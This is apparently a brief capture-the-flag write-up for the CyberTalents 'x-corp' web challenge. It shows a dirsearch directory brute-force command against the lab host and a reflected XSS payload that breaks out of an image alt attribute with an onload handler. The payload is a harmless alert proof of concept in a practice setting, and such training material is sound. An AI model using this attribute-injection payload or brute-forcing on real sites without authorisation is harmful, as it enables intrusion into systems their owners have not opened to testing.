


# Solve x-corp
#### https://cybertalents.com/challenges/web/x-corp

### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mgjk319pirvmej6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found 

### Try to cause error in the app

The parameter is reflected in the image alt 

### Try xss payload
`wcamxwl32pue3e6mgjk319pirvmej6zqdkgxu639-web.cybertalentslabs.com/?name=' onload=alert('m_1337')`

>Find More on ==> github.com/MedhatHassan 
